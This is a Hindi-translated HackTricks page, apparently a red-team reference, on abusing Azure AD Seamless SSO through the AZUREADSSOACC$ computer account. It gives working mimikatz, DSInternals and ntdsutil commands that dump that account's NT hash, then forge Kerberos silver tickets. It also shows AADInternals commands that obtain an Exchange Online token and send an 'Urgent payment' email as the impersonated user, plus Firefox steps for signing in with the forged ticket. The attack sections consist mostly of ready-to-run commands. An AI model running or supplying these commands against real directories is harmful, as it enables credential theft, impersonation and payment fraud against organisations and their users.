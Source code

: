 # Az - सीमलेस एसएसओ

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें!</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी का विज्ञापन HackTricks में देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [सब्सक्रिप्शन प्लान्स](https://github.com/sponsors/carlospolop) देखें!
* [आधिकारिक PEASS & HackTricks स्वैग](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [NFTs](https://opensea.io/collection/the-peass-family) कलेक्शन, [The PEASS Family](https://opensea.io/collection/the-peass-family) खोजें
* 💬 [डिस्कॉर्ड समूह](https://discord.gg/hRep4RUj7f) या [टेलीग्राम समूह](https://t.me/peass) में शामिल हों या हमें ट्विटर पर फॉलो करें 🐦 [@hacktricks_live](https://twitter.com/hacktricks_live)।
* [HackTricks](https://github.com/carlospolop/hacktricks) और [HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके अपने हैकिंग ट्रिक्स साझा करें।

</details>

## मूल जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) स्वचालित रूप से **उन उपयोगकर्ताओं को साइन इन करता है जब वे अपने कॉर्पोरेट नेटवर्क से कनेक्ट कर रहे होते हैं**। जब सक्षम किया जाता है, **उपयोगकर्ताओं को अपने Azure AD में साइन इन करने के लिए अपने पासवर्ड टाइप करने की आवश्यकता नहीं होती है**, और आम तौर पर, अपने उपयोगकर्ता नाम भी टाइप नहीं करते हैं। यह सुविधा आपके उपयोगकर्ताओं को किसी भी अतिरिक्त ऑन-प्रीमिस घटक की आवश्यकता के बिना आपके क्लाउड-आधारित एप्लिकेशनों तक आसान पहुंच प्रदान करता है।

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

मूल रूप से Azure AD Seamless SSO **उपयोगकर्ताओं को साइन इन करता है** जब वे **ऑन-प्रीम डोमेन ज्वाइंड पीसी पर** होते हैं।

यह [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) और [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) द्वारा समर्थित है।

डेस्कटॉप एसएसओ **प्रमाणीकरण के लिए केरबेरोस** का उपयोग कर रहा है। जब कॉन्फ़िगर किया जाता है, Azure AD Connect ऑन-प्रीम AD में **AZUREADSSOACC`$`** नामक कंप्यूटर खाता बनाता है। `AZUREADSSOACC$` खाते का पासवर्ड कॉन्फ़िगरेशन के दौरान **सादा-पाठ में Azure AD को भेजा जाता है**।

**केरबेरोस टिकट** को **NTHash (MD4)** का उपयोग करके **एन्क्रिप्ट** किया जाता है और Azure AD भेजे गए पासवर्ड का उपयोग करके टिकटों को डिक्रिप्ट करता है।

**Azure AD** एक **एंडपॉइंट** (https://autologon.microsoftazuread-sso.com) उपलब्ध कराता है जो केरबेरोस **टिकट** को स्वीकार करता है। डोमेन-ज्वाइंड मशीन का ब्राउज़र एसएसओ के लिए इस एंडपॉइंट को टिकट फ़ॉरवर्ड करता है।

### ऑन-प्रीम -> क्लाउड

उपयोगकर्ता **`AZUREADSSOACC$` का पासवर्ड कभी नहीं बदलता**। इसलिए, एक डोमेन व्यवस्थापक **इस खाते के हैश को कंप्रोमाइज** कर सकता है, और फिर इसका उपयोग करके **किसी भी ऑन-प्रीम उपयोगकर्ता को सिंक करने के लिए सिल्वर टिकट बना सकता है**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
आप अब **सिल्वर टिकट जेनरेट** कर सकते हैं:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
1. **ब्राउज़र को प्रारंभ करें:** Mozilla Firefox को लॉन्च करें।
2. **ब्राउज़र को कॉन्फ़िगर करें:**
   - **`about:config`** पर जाएं।
   - [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) के लिए पसंद को निम्नलिखित [मानों](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) पर सेट करें:
     - `https://aadg.windows.net.nsatc.net`
     - `https://autologon.microsoftazuread-sso.com`
3. **वेब एप्लिकेशन तक पहुंचें:**
   - संगठन के AAD डोमेन के साथ एकीकृत वेब एप्लिकेशन पर जाएं। एक सामान्य उदाहरण है [Office 365](https://portal.office.com/)।
4. **प्रमाणीकरण प्रक्रिया:**
   - लॉगऑन स्क्रीन पर, उपयोगकर्ता नाम दर्ज करें, पासवर्ड फ़ील्ड खाली छोड़ दें।
   - आगे बढ़ने के लिए, या तो TAB दबाएं या ENTER।

{% hint style="success" %}
यह MFA को अगर सक्षम किया गया है तो नहीं छोड़ता
{% endhint %}

#### ~~क्लाउड-केवल उपयोगकर्ताओं के लिए करबेरोस टिकट बनाना~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

यदि Active Directory प्रशासकों के पास Azure AD Connect तक पहुंच है, तो वे **किसी भी क्लाउड उपयोगकर्ता के लिए SID सेट कर सकते हैं**। इस तरह करबेरोस **टिकट** को **क्लाउड-केवल उपयोगकर्ताओं के लिए भी बनाया जा सकता है**। एकमात्र आवश्यकता है कि SID एक उचित [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) हो।

{% hint style="danger" %}
क्लाउड-केवल प्रशासक उपयोगकर्ताओं के SID बदलना अब **माइक्रोसॉफ्ट द्वारा अवरुद्ध है**।\
जानकारी के लिए देखें [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud के माध्यम से संसाधित प्रतिबंधित डेलीगेशन <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

किसी भी व्यक्ति जो इस खाते के ऊपर कंटेनर या OU में कंप्यूटर खातों (`AZUREADSSOACC$`) का प्रबंधन कर सकता है, वह **एक संसाधित प्रतिबंधित डेलीगेशन कॉन्फ़िगर कर सकता है और इसे एक्सेस कर सकता है**।

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: मैं आपके क्लाउड में हूं, सभी के ईमेल पढ़ रहा हूं - हैकिंग एज़्यूर AD के माध्यम से एक्टिव डायरेक्टरी](https://www.youtube.com/watch?v=JEIR5oGCwdg)

